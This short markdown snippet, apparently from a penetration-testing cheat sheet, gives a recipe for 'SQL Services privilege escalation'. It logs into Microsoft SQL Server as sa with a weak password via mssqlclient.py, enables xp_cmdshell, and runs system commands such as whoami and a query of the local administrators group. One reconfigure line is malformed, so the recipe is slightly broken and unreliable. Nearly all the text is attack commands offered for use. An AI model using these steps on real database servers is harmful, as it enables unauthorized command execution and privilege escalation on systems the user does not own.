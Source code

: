 ### SQL Services  privilege escalation
|for Example  |
| ------------- |
|python mssqlclient.py sa:123456@192.168.100.120|
|> EXEC sp_configure 'show advanced options', 1;|
|> EXEC sp_configure reconfigure;|
|> EXEC sp_configure 'xp_cmdshell', 1;|
|> EXEC sp_configure reconfigure;|
|> EXEC master.dbo.xp_cmdshell 'whoami';|
|> EXEC master.dbo.xp_cmdshell 'net localgroup administrators';|
